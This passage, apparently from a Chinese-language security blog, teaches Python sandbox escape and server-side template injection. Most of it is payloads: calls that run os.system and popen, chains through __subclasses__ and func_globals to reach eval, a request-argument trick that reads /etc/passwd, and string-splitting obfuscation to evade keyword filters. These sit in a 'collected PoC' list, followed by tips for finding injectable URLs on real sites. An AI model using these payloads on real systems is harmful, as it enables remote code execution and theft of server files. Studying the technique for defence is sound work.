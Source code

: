 ```
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)

import platform
print platform.popen('dir').read()
```



**5.过滤一些函数名如`__import__`**

python的初始模块_builtin__里有很多危险的方法，一条路没了就找找其他的路
我们可以直接用 eval() exec() execfile()等

```
__builtins__.eval()
```



**6.过滤双下划线__**

request方法

```
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read()
}}&class=__class__&mro=__mro__&subclasses=__subclasses__
```



**globals**

```
[].__class__.__base__.__subclasses__()[59]()._module.linecache.os.system('ls')
```





**收藏的一些poc**

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )


object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')


{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```

可以参考一下P师傅的 https://p0sec.net/index.php/archives/120/



#### 实战

每一个（重）模板引擎都有着自己的语法（点）,Payload 的构造需要针对各类模板引擎制定其不同的扫描规则, 
所以我们在挖掘之前有必要对网站的web框架进行检查，否则很多时候{{}}并没有用，导致错误判断

实战中要测试重点是看一些**url的可控**，比如url输入什么就输出什么。
**前期收集**好网站的开发语言以及框架，防止错误利用{{}}而导致错误判断。
如下图较全的反映了ssti的一些模板渲染引擎及利用：

![ssti](http://image.xpshuai.cn/img/ssti.png)




{% endraw %}
